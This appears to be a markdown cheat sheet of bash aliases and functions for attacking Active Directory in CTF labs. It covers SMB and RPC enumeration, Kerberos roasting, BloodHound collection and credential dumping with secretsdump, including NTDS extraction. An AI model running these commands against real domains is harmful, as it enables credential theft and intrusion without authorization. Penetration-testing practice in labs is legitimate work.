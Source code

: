 ```yaml
---
tags:
  - "#github"
  - "#type/template"
  - "#markdown"
  - "#notes"
  - "#cheatsheet"
  - "#active-directory"
  - "#ctf"
  - "#windows-enumeration"
  - "#security"
  - "#network-security"
  - "#programming"
  - "#python-scripting"
  - "#opensource"
  - "#red-team"
  - "#penetration-testing"
description:
author:
created: Sunday, June 29th 2025, 12:44:04 am
source:
title: Page 2 - AD
date modified: Sunday, June 29th 2025, 12:44:14 am
---
```


# Page 2 - AD

**Active Directory (AD)-related aliases** for CTF players doing **Windows domain enumeration**, **Kerberos abuse**, **SMB attacks**, and **privilege escalation**. These are particularly useful for **internal AD labs**, **HTB Active Directory boxes**, and **Red Team simulations**.

---

## 🏢 Active Directory Enumeration & Attacks

```bash
# 🔎 SMB & NetBIOS
smbshare() { smbclient -L "\\\\$1\\" -N; } # Usage: smbshare <target>
smbconnect() { smbclient "\\\\$1\\$2"; } # Usage: smbconnect <target> <share>
smbuser() { smbclient -L "\\\\$1\\" -U "$2"; } # Usage: smbuser <target> <user>
alias enum4='enum4linux-ng -a'
enumuser() { enum4linux -u "$1" -p "$2" -a "$3"; } # Usage: enumuser <username> <password> <target>
alias crackmap='crackmapexec smb'
alias smbmap='smbmap -H'
alias nbtscan='nbtscan -r 10.10.10.0/24'

# 🧠 LDAP & Kerberos
alias kerbrute='python3 ~/tools/kerbrute/kerbrute.py'
alias ldapenum='ldapsearch -x -H ldap://TARGET -s base'
alias adenum='python3 ~/tools/ADEnum/ADEnum.py'
bloodhound() { bloodhound-python -u "$1" -p "$2" -dc-ip "$3" -c all; } # Usage: bloodhound <user> <password> <dc_ip>

# 🗂️ Password & Hash Dumping
secretsdump() { secretsdump.py "$1/$2:$3@$4"; } # Usage: secretsdump <domain> <user> <password> <target>
dumpntds() { secretsdump.py -just-dc "$1/$2:$3@$4"; } # Usage: dumpntds <domain> <user> <password> <dc_ip>
alias hashgrab='impacket-secretsdump'
ridbrute() { rpcclient -U "" "$1" -N -c "enumdomusers"; } # Usage: ridbrute <target>

# 📜 Kerberos Ticket Attacks
asreproast() { GetNPUsers.py "$1/" -usersfile "$2" -no-pass -dc-ip "$3"; } # Usage: asreproast <domain> <users.txt> <target>
kerberoast() { GetUserSPNs.py "$1/$2:$3" -dc-ip "$4" -request; } # Usage: kerberoast <domain> <user> <password> <target>
alias tgt='klist'
renewtgt() { kinit "$1@$2"; } # Usage: renewtgt <username> <domain>
alias ptt='export KRB5CCNAME=FILE:/tmp/krb5cc_1337 && export KRB5_CONFIG=~/krb5.conf'

# 🛠️ Tools & Shortcuts
alias cme='crackmapexec'
alias impacket='cd ~/tools/impacket && source venv/bin/activate'
alias blood='cd ~/tools/BloodHound && neo4j console'
alias neo4jstart='sudo systemctl start neo4j'
alias neo4jstop='sudo systemctl stop neo4j'

# 🪓 Attack Chains
kerbcheck() { nmap --script "krb5-enum-users" -p 88 "$1"; } # Usage: kerbcheck <target>
noauthrpc() { rpcclient -U "" -N "$1"; } # Usage: noauthrpc <target>
authrpc() { rpcclient -U "$1%$2" "$3"; } # Usage: authrpc <user> <password> <target>

# 📚 Active Directory Cheatsheets
alias adhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/active-directory-methodology'
alias privhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation'
```

---

## ✅ Additional Tools Recommended

Make sure you have the following tools installed (some aliases reference them):

- [Impacket](https://github.com/SecureAuthCorp/impacket)
    
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
    
- [Kerbrute](https://github.com/ropnop/kerbrute)
    
- [BloodHound + Neo4j](https://github.com/BloodHoundAD/BloodHound)
    
- [Enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
    
- [ldapsearch (OpenLDAP)](https://linux.die.net/man/1/ldapsearch)
    
- [rpcclient (Samba)](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)

---

## 📥 Install and Activate

To include these in your setup:

### 1. Add to `~/.ctf_aliases` or `.bashrc`/`.zshrc`

```bash
[ -f ~/.ctf_aliases ] && source ~/.ctf_aliases
```

### 2. Then Source It:

```bash
source ~/.ctf_aliases
```

---

## 🧠 Learn More

- [HackTricks: Active Directory](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
    
- [PayloadsAllTheThings – Windows & AD](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Active%20Directory%20Attack%20Cheatsheet)
    
- [Red Team Notes by RastaMouse](https://rastamouse.me/)

